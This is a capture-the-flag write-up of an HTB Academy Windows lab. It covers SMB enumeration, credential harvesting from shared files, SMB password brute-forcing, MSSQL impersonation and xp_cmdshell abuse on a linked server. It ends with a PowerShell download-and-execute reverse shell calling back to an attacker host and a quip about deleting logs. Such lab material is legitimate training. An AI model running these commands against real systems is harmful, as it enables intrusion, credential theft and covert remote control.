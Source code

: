 ```yaml
---
title: "HTB Academy | Attacking Common Services Lab 3"
description: "This is a hard lab writeup from the htb module attacking common services"
pubDate: "Nov 18 2024"
heroImage: "https://academy.hackthebox.com/storage/modules/116/logo.png?t=1730242916"
badge: "Windows - Hard"
tags: ["Exploitation","Sql","MSSQL","Bruteforcing","Windows","Smb","Privesc","Reverse Shell"]
---
```



- 1. Nmap Scanning TCP OPEN Ports:

```sh
sudo nmap -sS --open --min-rate 5000 -p- -Pn -n -vvv 10.129.134.163 -oG allPorts
```

```sh
PORT     STATE SERVICE       REASON
135/tcp  open  msrpc         syn-ack ttl 127
445/tcp  open  microsoft-ds  syn-ack ttl 127
1433/tcp open  ms-sql-s      syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127
```

- 1.2 Nmap basic scripts an service scanning:

```sh
nmap -sCV -p 135,445,1433,3389 10.129.134.163 -oN target
```

```python
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.134.163:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.134.163:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-11-17T06:52:40
|_Not valid after:  2054-11-17T06:52:40
|_ssl-date: 2024-11-17T06:57:07+00:00; -1s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-HARD
| Not valid before: 2024-11-16T06:52:28
|_Not valid after:  2025-05-18T06:52:28
| rdp-ntlm-info: 
|   Target_Name: WIN-HARD
|   NetBIOS_Domain_Name: WIN-HARD
|   NetBIOS_Computer_Name: WIN-HARD
|   DNS_Domain_Name: WIN-HARD
|   DNS_Computer_Name: WIN-HARD
|   Product_Version: 10.0.17763
|_  System_Time: 2024-11-17T06:56:26+00:00
|_ssl-date: 2024-11-17T06:57:06+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-17T06:56:30
|_  start_date: N/A
```

------------------------------------------


- 2. Listing available smb folders:

```ruby
❯ smbclient -N -L //10.129.134.163/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Home            Disk      
	IPC$            IPC       Remote IPC
```


- 2.2 Download home directory:

```ruby
❯ smbclient  //10.129.134.163/home -U "" -Tc target.tar.gz
Password for [WORKGROUP\]:  # ==> Press enter
tar: dumped 5 files and 0 directories
Total bytes written: 576 (0,0 MiB/s)
```

- 2.3 Decompress the file and Search:

```python
❯ 7z x target.tar.gz

❯ tree
   -  .
   - ├──  HR
   - ├──  IT
   - │   ├──  Fiona
 118 │   │   └──  creds.txt
   - │   ├──  John
 101 │   │   ├──  information.txt
 164 │   │   ├──  notes.txt
  99 │   │   └──  secrets.txt
   - │   └──  Simon
  94 │       └──  random.txt
   - ├──  OPS
   - ├──  Projects
```


- 2.4 Create a dictionary password with the credentials in the files:

```bash
❯ cat passwords
───────┬────────────────────────────────────
       │ File: passwords
───────┼────────────────────────────────────
   1   │ kAkd03SA@#!
   2   │ 48Ns72!bns74@S84NNNSl
   3   │ SecurePassword!
   4   │ Password123!
   5   │ SecureLocationforPasswordsd123!!
   6   │ 1234567
   7   │ (DK02ka-dsaldS
   8   │ Inlanefreight2022
   9   │ Inlanefreight2022!
  10   │ TestingDB123
  11   │ (k20ASD10934kadA
  12   │ KDIlalsa9020$
  13   │ JT9ads02lasSA@
  14   │ Kaksd032klasdA#
  15   │ LKads9kasd0-@
───────┴────────────────────────────────────
```

- 2.5. Brute force user fiona with crackmapexec:

```ruby
❯ crackmapexec smb 10.129.134.163 -u fiona -p passwords
SMB         10.129.134.163  445    WIN-HARD         [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-HARD) (domain:WIN-HARD) (signing:False) (SMBv1:False)
SMB         10.129.134.163  445    WIN-HARD         [-] WIN-HARD\fiona:kAkd03SA@#! STATUS_LOGON_FAILURE 
SMB         10.129.134.163  445    WIN-HARD         [+] WIN-HARD\fiona:48N*************
```

------------------

- 3.1 Connection to mssql with windows authentication:

```sh
impacket-mssqlclient -p 1433 fiona@10.129.134.163 -windows-auth   
```


- 3.2 Checking remote and vinculate servers:

```sql
SQL (WIN-HARD\Fiona  guest@master)> select srvname, isremote from sysservers
srvname                 isremote   
---------------------   --------   
WINSRV02\SQLEXPRESS            1   

LOCAL.TEST.LINKED.SRV          0   
```

- 3.3 Checking if we have permissions to connect as user "fiona":

```sql
SQL (WIN-HARD\Fiona  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
ERROR(WIN-HARD\SQLEXPRESS): Line 1: Login failed for user 'NT AUTHORITY\ANONYMOUS LOGON'.
```

- 3.4 Searching for other users in the system database:

```
SQL (WIN-HARD\Fiona  guest@master)>  SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name    
-----   
john    

simon   

```

- 3.5 changing to user john and checking if we have permissions on LOCAL.TEST.LINKED.SRV:

```sql
SQL (WIN-HARD\Fiona  guest@master)> execute as login = 'john'
SQL (john  guest@master)> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
                
-   -   -   -   
1   1   1   1   

```

- 3.6 We have permissions as sysadmin, so let's make some configurations to execute commands in the machine:


```sql
SQL (john  guest@master)> execute('sp_configure "show advanced options",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]

SQL (john  guest@master)> execute('sp_configure "xp_cmdshell",1') at [LOCAL.TEST.LINKED.SRV]
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (john  guest@master)> execute('reconfigure') at [LOCAL.TEST.LINKED.SRV]
SQL (john  guest@master)> execute('xp_cmdshell "whoami"') at [LOCAL.TEST.LINKED.SRV]
output                
-------------------   
nt authority\system   
```


- 4 Using ConPtyShell from antoniococo [Github](https://github.com/antonioCoco/ConPtyShell):

```sh
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 
```

- 4.1 In the script at last line, you can put this code and set the configuration of your machine and listeting port. Rows and columns is the size of your terminal, in my case is 48 and 162, you can use ("stty size") in your terminal to see yours.

```powershell
Invoke-ConPtyShell -RemoteIp <yourIp> -RemotePort 666 -Rows 48 -Cols 162
```


- 4.1 Preparing the Web server and listening with netcat:

```sh
python3 -m http.server 80
```

```sh
nc -nlvp 666
```

![Texto alternativo](/Pasted%20image%2020241118004402.png)

4.2 Getting and executing the script from our machine:

```sql
SQL (john  guest@master)> execute('xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString(''http://<yourIP>/PS.ps1'')" ') at [LOCAL.TEST.LINKED.SRV]
```


4.3 Searching the flag:

```powershell
PS C:\> cd C:\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                                                             
----                -------------         ------ ----                                                                                                             
-a----        4/21/2022   4:07 PM             27 flag.txt                                                                                                         


PS C:\Users\Administrator\Desktop> type .\flag.txt 
HTB{46**************}
PS C:\Users\Administrator\Desktop>  
```

- 4.4 You can get the flag and remember to delete all the logs :D

